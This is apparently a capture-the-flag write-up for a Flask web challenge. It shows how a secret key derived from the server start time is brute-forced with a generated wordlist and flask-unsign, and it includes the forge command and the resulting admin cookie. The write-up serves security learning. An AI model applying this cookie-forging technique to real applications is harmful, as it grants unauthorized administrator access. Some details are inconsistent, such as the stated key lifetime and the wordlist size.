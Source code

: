 ## Description
One may not be the one they claim to be
### Analyze the source code
```python
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
app.config['PERMANENT_SESSION_LIFETIME'] = timedelta(seconds=300)

flag = os.environ.get('FLAG', "flag{this_is_a_fake_flag}")
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
```
The server generates its start time and converts it into a secure key, which is reset every 10 minutes. The secret is encoded using a fixed UUID.
```python
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
```
To get the flag, I need to set the session `is_admin` to `True` and change the UUID of the 'administrator' with the username set to 'administrator'.

Login in to the page, I got a cookie which contains the above elements and the signature key. Here is an example: 
```
eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6IjFlMWU0NzU4LTUwYTUtNWZjNy04M2E2LThhMDYxN2VmNDcyOCIsInVzZXJuYW1lIjoiYSJ9.ZvBiuA.G_rrcFBFXVKo5tR_i_UCelRgqYA
{"is_admin":false,"uid":"1e1e4758-50a5-5fc7-83a6-8a0617ef4728","username":"a"}fðb¸«­ÁAuJ£Q@*
```
Thank `nh0kt1g3r12` for letting me know that I should brute-force the key by using flask-unsign.
### Brute-force the key
First, let convert the time provided in `/status` into the key by using this script:
```python
from datetime import datetime, timedelta
server_start_time = datetime.strptime('2024-09-22 18:32:00', '%Y-%m-%d %H:%M:%S')
```
Then, make a wordlist that contains 10000 hash keys
```python
from datetime import datetime, timedelta
import hashlib

server_start_time = 20240921183020

for i in range (0,10**5):
  server_start_str = server_start_time - i
  secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
  f = open('hash-time-wordlist.txt','a')
  f.write(secure_key+'\n')
  f.close()
```
After generating the wordlist, I used flask-unsign to brute-force the session key with the following command:
```
export PATH=$PATH:/home/nguyenlong05/.local/bin
flask-unsign --unsign --wordlist hash-time-wordlist.txt --cookie "eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6IjFlMWU0NzU4LTUwYTUtNWZjNy04M2E2LThhMDYxN2VmNDcyOCIsInVzZXJuYW1lIjoiYSJ9.ZvBiuA.G_rrcFBFXVKo5tR_i_UCelRgqYA"
```
Once I found the correct key, I generated a valid cookie using the correct elements and key:
```
$ flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret 'dd3d603b287e7645a135fb71b30cb4373082f8d58883e129d921912b535cd493'
eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.ZvETLw.JZZA5gzdC6YS1kbw2Nosh6ZdOsk
```
